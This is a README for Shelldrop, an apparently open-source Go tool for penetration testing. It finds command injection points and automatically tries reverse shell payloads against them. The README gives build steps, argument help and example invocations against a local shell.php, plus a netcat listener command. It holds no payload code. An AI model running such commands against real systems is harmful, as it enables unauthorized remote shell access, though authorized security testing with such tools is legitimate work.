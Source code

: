 # Shelldrop

A command injection tool that leverages an injection point by automatically testing for working reverse shell payloads.

Shelldrop works by injecting payloads into the provided `SHELLDROP` keyword/placeholder.

**Features:**

- Configurable injection point
- Automatic payload detection
- Built-in listener
- Flexible configuration

![til](./demo/demo.gif)

## Build

```bash
git clone https://github.com/shhrew/shelldrop
cd shelldrop
go build -o shelldrop
```

## Usage

```bash
usage: shelldrop [-h|--help] -l|--lhost "<value>" -p|--lport <integer>
                 [-P|--payload "<value>"] -u|--url "<value>" [-X|--method
                 (GET|POST|PUT|PATCH|DELETE)] [-d|--data "<value>"]
                 [--no-listener] [--no-color]

                 A command injection tool that automatically tests for working
                 reverse shell payloads.

[*] = Asterisked arguments can contain the SHELLDROP injection keyword

Arguments:

  -h  --help         Print help information
  -l  --lhost        The listen address
  -p  --lport        The listen port
  -P  --payload      Specific payload to use
  -u  --url          The target url [*]
  -X  --method       The request method. Default: GET
  -d  --data         POST data [*]
      --no-listener  Disable the built-in listener
      --no-color     Disable color output
```

## Examples

#### URL Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP"
```

#### Using Specific Payload
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" -P bash_tcp_1
```

#### Post Data Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d "vuln_param=SHELLDROP"
```

#### Using External Listener
```bash
# Start your own listener first
nc -lvp 4444

# Run shelldrop with built-in listener disabled
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" --no-listener
```